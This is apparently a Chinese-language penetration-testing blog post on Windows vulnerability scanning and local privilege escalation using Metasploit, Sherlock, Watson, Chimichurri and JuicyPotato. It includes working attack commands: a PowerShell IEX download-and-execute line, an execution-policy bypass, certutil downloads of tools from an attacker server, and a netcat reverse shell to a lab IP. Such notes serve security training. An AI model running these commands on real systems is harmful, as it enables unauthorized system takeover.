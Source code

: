 ```yaml
---
title: Windows漏洞扫描与提权
date: 2021/12/12
tags: [windows,渗透测试,漏洞利用]
categories: 渗透测试
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_20.jpg
---
```




# windows漏洞扫描与提权

## 漏洞扫描

- 使用msf

```
use post/multi/recon/local_exploit_suggester
```

- 脚本 [Sherlock](https://github.com/mxrmiss/Sherlock)
  - **[使用方法](https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/)**


>```
>初步使用本地加载脚本
>Import-Module Sherlock.ps1
>
>远程加载脚本
>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
>
>在不触发脚本执行检测的情况下运行Sherlock
>powershell -ExecutionPolicy Bypass -File Sherlock.ps1
>```

>- 使用**Meterpreter**
>
>1. 加载powershell  
>
>```
>load powershell
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-30.png)
>
>2. 导入 Sherlock 脚本。找到包含它的文件夹 (第一次可能不成功，多试几次)
>
>```
>powershell_import ‘Sherlock.ps1’
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-31.png)
>
>3. 运行脚本 (第一次可能不成功，多试几次)
>
>```
>powershell_execute “Find-allvulns”
>```
>
>![img](https://herozql.oss-cn-beijing.aliyuncs.com/main/word-image-32.png)

- 脚本 [Watson](https://github.com/mxrmiss/Watson)



## 提权

- 脚本 [Chimichurri](https://github.com/mxrmiss/Chimichurri)

>- 在windows靶机中接收脚本文件
>
>```
>certutil -f -urlcache http://10.10.14.31:8000/chimichurri.exe chimichurri.exe
>```
>
>- 本地机器nc监听端口, 靶机上使用脚本文件
>
>```
>chimichurri.exe ip port
>```
>
>- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

- 脚本 [juicyPotato.exe](https://github.com/ohpe/juicy-potato/releases)

>- 首先使用`whoami \priv` 查看用户权限，如果用户拥有`SeImpersonate`或`SeAssignPrimaryToken`权限，则这个脚本就适用
>- 上传到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/JuicyPotato.exe juicyPotato.exe
>```
>
>- 上传nc.exe到靶机
>
>```
>certutil -f -urlcache http://192.168.119.150:8000/nc64.exe nc.exe
>```
>
>- 使用juicyPotato.exe
>
>```
>juicyPotato.exe  -l 5837 -t t -p C:\Windows\System32\cmd.exe   -a "/cc:\users\public\nc.exe -e cmd.exe 192.168.119.150 5555"
>```
>
>- 查看本地监听的端口，成功获取管理员权限
>
>
